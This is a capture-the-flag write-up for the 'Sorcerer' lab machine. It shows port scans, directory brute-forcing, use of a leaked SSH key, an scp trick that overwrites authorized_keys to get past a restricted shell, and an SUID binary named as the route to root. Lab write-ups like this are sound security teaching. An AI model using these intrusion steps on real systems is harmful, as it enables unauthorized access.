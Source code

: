 # Sorcerer

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.168.100
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 13:52 +08
Nmap scan report for 192.168.168.100
Host is up (0.17s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
7742/tcp  open  msss
33603/tcp open  unknown
41637/tcp open  unknown
42193/tcp open  unknown
59253/tcp open  unknown
```

Did a detailed scan in case:

```
$ sudo nmap -p 80,111,2049,7742,33603,41637 -sC -sV --min-rate 5000 -Pn 192.168.168.100
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 13:55 +08
Nmap scan report for 192.168.168.100
Host is up (0.21s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100003  3           2049/udp   nfs
|   100003  3,4         2049/tcp   nfs
|   100005  1,2,3      41637/tcp   mountd
|   100005  1,2,3      52180/udp   mountd
|   100021  1,3,4      42193/tcp   nlockmgr
|   100021  1,3,4      58389/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/udp   nfs_acl
2049/tcp  open  nfs_acl 3 (RPC #100227)
7742/tcp  open  http    nginx
|_http-title: SORCERER
33603/tcp open  mountd  1-3 (RPC #100005)
41637/tcp open  mountd  1-3 (RPC #100005)
```

NFS and Port 7742 look the most promising.

### NFS Enumeration -> Dead End

I first enumerated NFS to see if there was anything to mount:

```
$ showmount -e 192.168.168.100 
Export list for 192.168.168.100:
```

There was nothing, so let's move on.

### Web Enumeration -> Zipfiles

Port 7742 just shows us a login page:

<figure><img src="../../../.gitbook/assets/image (472).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` directory scan while I tested some weak default passwords. I found a few directories present:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.168.100:7742/ -t 100  
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.168.100:7742/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/10 13:58:45 Starting gobuster in directory enumeration mode
===============================================================
/default              (Status: 301) [Size: 178] [--> http://192.168.168.100:7742/default/]
/zipfiles             (Status: 301) [Size: 178] [--> http://192.168.168.100:7742/zipfiles/]
```

The `/zipfiles` directory looks the most interesting. Within it, there were zip files named after the users on the machine:

<figure><img src="../../../.gitbook/assets/image (819).png" alt=""><figcaption></figcaption></figure>

`max.zip` was the largest and hence the only one I downloaded. When unzipped, it contained all the files like his SSH key:

```
$ unzip max.zip       
Archive:  max.zip
   creating: home/max/
  inflating: home/max/.bash_logout   
  inflating: home/max/.profile       
   creating: home/max/.ssh/
  inflating: home/max/.ssh/id_rsa.pub  
  inflating: home/max/.ssh/authorized_keys  
  inflating: home/max/.ssh/id_rsa    
  inflating: home/max/tomcat-users.xml.bak  
  inflating: home/max/.bashrc        
  inflating: home/max/scp_wrapper.sh
```

However, attempts to SSH in as `max` fail.

```
$ ssh -i home/max/.ssh/id_rsa max@192.168.168.100
PTY allocation request failed on channel 0
ACCESS DENIED
```

It seems that something is blocking us. When we read the `scp_wrapper.sh` file, we see that `ssh` is being blocked, but not `scp`:

```bash
$ cat scp_wrapper.sh 
#!/bin/bash
case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "ACCESS DENIED."
    scp
    ;;
esac
```

Since `scp` is allowed, we can transfer our public key into the `authorized_keys` folder:

```
$ scp -O -i id_rsa ~/.ssh/id_rsa.pub max@192.168.168.100:/home/max/.ssh/authorized_keys
id_rsa.pub                                                 100%  391     2.2KB/s   00:00
```

Afterwards. we can just `ssh` in:

<figure><img src="../../../.gitbook/assets/image (3490).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary -> Root Shell

I did a search for SUID binaries on the machine:

```
$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/mount.nfs
/usr/sbin/start-stop-daemon
<TRUNCATED>
```

`start-stop-daemon` is an SUID binary, and it can spawn a `root` shell for us.&#x20;

![](<../../../.gitbook/assets/image (2203).png>)

